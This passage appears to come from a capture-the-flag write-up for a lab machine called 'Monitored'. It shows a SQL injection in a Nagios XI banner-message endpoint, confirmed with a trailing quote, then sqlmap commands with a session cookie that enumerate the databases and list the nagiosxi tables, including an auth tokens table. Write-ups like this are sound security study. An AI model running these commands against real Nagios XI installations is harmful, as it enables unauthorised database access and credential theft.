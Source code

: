 This request we update according to the blog post. Adding a `'` to the end to test for the SQL Injection.

![monitored7](./assets/monitored7.png)

The SQL error we see in the response indicates we can do SQL injection.

Using `sqlmap` we enumerate the database.

It has 2 databases 

```shell
labadmin@labmachine:~/monitored$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" --batch -p id -cookie="nagiosxi=jmn8jdqa8896k6pqkuov3lnqde" --dbs --threads=10
...[OMITTED]...
available databases [2]:
[*] information_schema
[*] nagiosxi
...[OMITTED]...
```

Starting off by dumping the `nagiosxi`

```shell
labadmin@labmachine:~/monitored$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" --batch -p id -cookie="nagiosxi=jmn8jdqa8896k6pqkuov3lnqde" --threads=10 -D nagiosxi --tables
...[OMITTED]...
[22 tables]
+-----------------------------+
| xi_auditlog                 |
| xi_auth_tokens              |
| xi_banner_messages          |
| xi_cmp_ccm_backups          |
| xi_cmp_favorites            |
| xi_cmp_nagiosbpi_backups    |
| xi_cmp_scheduledreports_log |
| xi_cmp_trapdata             |
| xi_cmp_trapdata_log         |
| xi_commands                 |
| xi_deploy_agents            |
```